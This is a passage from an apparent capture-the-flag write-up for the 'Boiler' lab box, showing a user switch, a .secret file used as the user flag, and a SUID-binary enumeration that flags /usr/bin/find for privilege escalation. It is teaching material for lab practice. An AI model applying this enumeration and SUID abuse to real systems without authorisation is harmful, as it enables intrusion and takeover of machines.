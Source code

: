 ![stoner.png](../assets/boiler_ctf_assets/stoner.png)

In stoner's directory we find a `.secret` file:

```text
basterd@Vulnerable:~$ su stoner
Password: 
stoner@Vulnerable:/home/basterd$ cd ..
stoner@Vulnerable:/home$ cd stoner
stoner@Vulnerable:~$ ls
stoner@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
```

Which for this box serves as the user.txt flag:

![user_flag.png](../assets/boiler_ctf_assets/user_flag.png)

### Privilege Escalation

Looking for SUID we discover that `find` as the SUID bit:

```text
stoner@Vulnerable:~$ find / -perm -u=s 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
```